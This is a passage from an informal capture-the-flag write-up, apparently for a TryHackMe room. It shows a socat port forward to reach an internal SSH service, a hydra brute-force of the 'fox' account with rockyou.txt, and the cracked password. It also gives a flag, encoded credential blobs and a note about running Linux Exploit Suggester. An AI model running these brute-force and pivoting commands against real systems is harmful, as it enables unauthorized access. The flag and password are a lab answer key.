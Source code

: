 ```
LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2CONVHGUTTKNBWVUV2WNNNFOSTLJVKFS6CNKRAX
UTT2MMZE4VCVGFMXUSLYLJCGGM22KRHGUTLNIZUE26S2NMFE6R2NGBHEIY32JVBUCZ2MKFXT2CQ=
```

hmm. server is listening at port 22. ;-;

![](/assets/img/thm/yotf/15.png)

setting up port forward:
```sh
./socat tcp-l:8080,fork,reuseaddr tcp:127.0.0.1:22 &
```

![](/assets/img/thm/yotf/16.png)

![](/assets/img/thm/yotf/17.png)

hmm so its a ssh server . :P

![](/assets/img/thm/yotf/18.png)

nothing seems to work :-;

As Ig theres nothing left, being stuck for a lot of while + that I haven't fot a response in discord for a hint. bruteforceeeeeeeeeeeeeeeeeeee.

```sh
hydra -l fox -P /usr/share/dict/rockyou.txt -s 8080 -f 10.10.227.190 ssh -t 64
```

huhhhh.

![](/assets/img/thm/yotf/19.png)

login: `fox`   password: `lovebug`

;-; didn't get anything for rascal.

## Flag 2

![](/assets/img/thm/yotf/20.png)

```
THM{Njg3NWZhNDBjMmNlMzNkMGZmMDBhYjhk}
```

## Privilege Escalation - root

again a lot of weird stuff, I don't even wanna try anything. just straightttttttt up run LES lmao.

![](/assets/img/thm/yotf/21.png)

creds1:
```
JV5GOMSOIRGTKTTKKV5E22SNGBGXUSL2JZCFS6SONJEXUTKUJU2E42SVGJHGUTLYJZVE2MSOIRGT
ETTKJV5E2RCNGVGXUVL2JZCE26KONJGXUT2UJV5E26SFPIFE46SZPBBWUTJTJZVFK6SNIRGTETTK
IV5E4RCNGRHGURL2JZCE26KONJKTETL2JV3U26TLPJHEIWLZJV5GOMSNKRMXQTL2JUZE4RCZPBGX
UY32JZKE252ONJIXUCSPKRGTCTL2KV5E4Z3PPJGWUTJVJV5EC6SNNJEXOTLKIF4VURCCNBBWOPJ5
BI======
```
